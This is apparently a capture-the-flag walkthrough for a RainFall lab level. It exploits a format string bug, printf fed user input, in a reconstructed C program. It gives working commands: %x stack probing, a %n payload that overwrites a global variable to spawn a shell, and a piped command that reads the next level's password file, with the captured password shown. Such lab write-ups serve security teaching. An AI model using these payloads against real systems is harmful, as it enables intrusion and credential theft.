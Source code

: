 # Level 3

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>

int m;

void v(void)
{
    char buffer[512];
    fgets(buffer, 512, stdin);
    printf(buffer);

    if (m == 64)
    {
        fwrite("Wait what?!\n", 1, 12, stdout);
        system("/bin/sh");
    }
}

int main(void)
{
    v();
}
```

Let's focus on the `v` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However, the `printf` function is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.
> You can read more about format string vulnerabilities [here](https://owasp.org/www-community/attacks/Format_string_attack).

We notice from the C code that we'll have to somehow write 64 bytes to the `m` variable to spawn a shell. We can do this by exploiting the format string vulnerability, thanks to the `%n` format specifier, which writes the number of bytes written so far to the corresponding argument. Furthermore, we'll make sure the corresponding argument is the `m` variable's address.

Before crafting our payload, we have to locate our input string on the stack and determine the address of `m`.

To locate our input string on the stack, we send a string with format specifiers, specifically the `%x` specifier, to `printf`. This specifier prints the next argument as a hexadecimal value. Since we don't pass any arguments to `printf`, it will print the values on the stack:
```bash
level3@RainFall:~$ python -c 'print("%x %x %x")' | ./level3
200 b7fd1ac0 b7ff37d0
```

To pinpoint our input string on the stack, we need to precede our `%x` format specifiers with a dummy string:

```bash
level3@RainFall:~$ python -c 'print("AAAA %x %x %x %x")' | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141
```

In this output, 41414141, the hexadecimal representation of 'AAAA', is found at the fourth position.

The assembly code reveals that the address of the `m` variable is `0x804988c`.

We can then craft our payload:
```
address of m + padding + %n format specifier pointing to the fourth argument

"\x08\x04\x98\x8c"[::-1] + "\x90"*(64-4) + "%4$n"
```

Since we need to write 64 into `m`, we write 64 characters (4 from the address of `m` and 60 from the "0" padding). 
Then, we use the `%n` format specifier to record the count of bytes written so far into the fourth argument, which is `m`'s address.

Let's execute our payload:
```bash
level3@RainFall:~$ (python -c 'print("\x08\x04\x98\x8c"[::-1] + "\x90"*(64-4) + "%4$n")' && echo 'cat /home/user/level4/.pass') | ./level3
�000000000000000000000000000000000000000000000000000000000000
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

We are now level4! Let's move on to the next level.


